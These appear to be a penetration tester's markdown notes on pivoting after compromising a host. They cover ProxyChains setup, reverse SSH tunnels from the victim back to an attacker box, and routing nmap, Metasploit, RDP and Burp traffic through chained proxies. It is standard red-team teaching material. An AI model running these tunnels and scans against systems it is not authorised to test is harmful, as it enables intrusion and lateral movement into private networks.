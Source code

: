 # Pivoting

## Setting up ProxyChains
##### Allows you to run commands from your kali machine across a tunnel from your victim to other machines the victim is logically connected to

#### Greater than OpenSSH 7.6

If attacking a victim running OpenSSH version lower than 7.6, your process will be different. Older versions don't support -R and have to use a two-way proxy with -D

TODO: Figure out this process

##### On Attacker Box

Open /etc/proxychains4.conf. 

Comment strictchain and uncomment dynamicchain. Uncomment quitemode. Comment proxydns. Then change the default config at the bottom from socks4 127.0.0.1 9080 to socks5 and whatever port you want to use.

Note: For RDP, make sure xclip is installed.

##### Make sure that SSH is listening on Attacker Box

```
Sudo systemctl start ssh.service                                                                                  
```
##### If running over the internet, make sure port forwarding is open and pointing your external port to your internal attacker box interface


##### On Victim Box

```
ssh -N -f -R 127.0.0.1:9080 attacker_username@attacker_IP -p unique_pivot_port                                                                                                  
```

This only requires an ssh client on the victim machine which is extremely common. Only other thing required it to start ssh on your attacker box, as well as a port forwarding rule if it's going over the internet. 

##### On Attacker Box

```
Sudo proxychains nmap --top-ports=20 -sT -sV -sC  -v --open  -Pn IP_Address
Sudo proxychains nmap -iL scope -F -sT -v -Pn | tee fast_scan
```

You can run wrap almost any tool inside of proxychains to force it through the ssh tunnel, including things like metasploit/msfconsole. Extremely useful to utilize proxy 'fun' even if your meta module/other tool doesn't support proxy configuration.

##### Wrapping Metasploit inside of Proxychains

```
sudo proxychains msfconsole
```

This prevents you from having to setup proxies within each module in meta. Some modules don't support proxies so just another layer of difficulty that proxychains helps us avoid.

## Proxy Individual Port like RDP from Victim Back to Host 
#### Allows you to hit individual port that is open on the victim machine like RDP/VNC after you've owned the machine via an exploit

##### On Target

```
ssh -R 33389:localhost:3389 $Username@$Proxy_IP -p $Proxy_Port
```

##### On Proxy

```
ssh -R 4545:locahost:33389 $Username@$Jumpbox_Hostname -p $Jumpbox_Port
```

##### On Jumpbox

```
sudo systemctl start ssh
```

##### Local Kali

```
ssh -L 3389:localhost:4545 $Username@$Jumpbox_Hostname -p $Jumpbox_Port
```

##### On Host

```
rdp:localhost:3389
```
## Proxy All Traffic Through Victim (Requires opening SSH as a Service on the victim on 127.0.0.1 and known local ssh credentials)

##### On Victim

```
ssh -D 1080 -N -f $local_user@127.0.0.1
ssh -R 10000:localhost:1080 $Username@$Proxy_IP -p $Proxy_Port
```

##### On Proxy

```
sudo systemctl start ssh
```

##### On Jumpbox

```
ssh -L 8887:localhost:10000 $Username@Proxy_IP -p $Proxy_Port
```

##### On Host

```
ssh -L 8887:localhost:8887 $Username@Local_Kali
```

##### If Running Burp Suite

Point burp suite SOCKS5 proxy to 8887 in Burp Network Settings
Point foxyproxy settings to 8080 HTTPS

Should then be able to hit any target on the internal network of your victim directly in proxy browser

## Pivot through a victim without opening a local port
#### (in cases when you don't have access to ssh server)(have to change your target IP when interacting with other internal targets!)

##### On Victim (will have to exit ssh connection to change targets!)

```
ssh -R 10000:$TARGET_IP:$TARGET_PORT $Username@$Proxy_IP
```

##### On Proxy/VPS

```
sudo systemctl start ssh.
```

##### On Jumpbox

```
ssh -L 8887:localhost:10000 $Username@$Proxy_IP
```

##### On Host

```
ssh -L 8887:localhost:8887 $Username@$Jumpbox_IP
```

If Running Burp suite (alernative to above)
Point Burp Suite SOCKS5 proxy to 8887 in Burp Network Settings
Point foxyproxy settings to 8080 HTTPS
